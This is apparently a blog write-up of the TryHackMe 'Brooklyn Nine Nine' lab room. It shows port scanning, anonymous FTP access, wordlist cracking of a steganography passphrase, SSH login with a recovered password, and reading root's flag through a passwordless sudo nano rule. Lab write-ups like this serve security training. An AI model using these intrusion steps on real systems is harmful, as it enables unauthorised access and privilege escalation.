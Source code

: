 ```yaml
---
layout: post
title: "THM Writeup - Brooklyn Nine Nine"
subtitle: "Try Hack Me - Brooklyn"
date: 2021-07-01 
background: '/img/bg-write.jpg'
---
```


# THM ![Try Hack Me](https://img.shields.io/badge/-TryHackMe-black?style=flat-square&logo=tryhackme)

## Room name: Brooklyn Nine Nine
<https://tryhackme.com/room/brooklynninenine>

### Description: 
This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

### OS: ![Linux](https://img.shields.io/badge/Linux-black?style=flat-square&logo=linux)


To begin we will start with a simple nmap scan to enumerate open ports, services, and versions:

```bash
nmap -sC -sV -A -oN scans/nmap.initial $IP
```
The following ports are open on the machine:

port 	   |service
-----------|----------
21		   |ftp
22         |ssh
80		   |webserver

nmap is reporting that the FTP allows anonymous login.
```bash
21/tcp open  ftp     vsftpd 3.0.3
ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

We connect to to the FTP with *anonymous* credentials
```
ftp 10.10.240.86
Connected to 10.10.240.86.
220 (vsFTPd 3.0.3)
Name (10.10.240.86:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Within the FTP server we use ls to list directory contents and find a file named **note_to_jake.txt**:
```
~# cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
So far we have gathered 3 possible usernames:

- Amy
- Holt
- Jake


Viewing the website on port 80 we see a large image with no other html elements.
Looking at the source of the page reveals the following comment.
```html
<!-- Have you ever heard of steganography? -->
```
Following this lead, we download the file and run stegcracker on the file to reveal any additional clues.

```bash
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: *****
Tried 20586 passwords
Your file has been written to: brooklyn99.jpg.out
```
Now with the password in hand, we can use steghide to extract.

```bash
steghide extract -sf brooklyn99.jpg

Enter Passphrase:
wrote extracted data ot "Note.txt".
```

The note reads as follows:
```bash
Holts Password:
fl*********ne

Enjoy!!
```
## User Flag:
With these credentials, we can attempt to log into ssh using Holts account.

```bash
# ssh holt@10.10.98.170
The authenticity of host '10.10.98.170 (10.10.98.170)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.98.170' (ECDSA) to the list of known hosts.
holt@10.10.98.170's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$
```

We then list the directory contents and find the user flag:
```bash
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
holt@brookly_nine_nine:~$ cat user.txt 
ee1**************ee
```

## Root Flag
Now that we have a user shell we can review what, if any SUDO permissions are available for use. To do so we run *sudo -l* to enumerate. We see that holt may run nano as SUDO. 
```bash
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
This being the case, we can attempt to open the root.txt file located in the root user home directory. Running sudo /bin/nano /root/root.txt reveals the following output.

```bash
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63**************45

Enjoy!!
```

## Takeaways

1. Basic enumeration with nmap
2. Steganography tools
3. FTP use
4. ssh login with found creds
5. sudo enumeration and exploitation of privilege
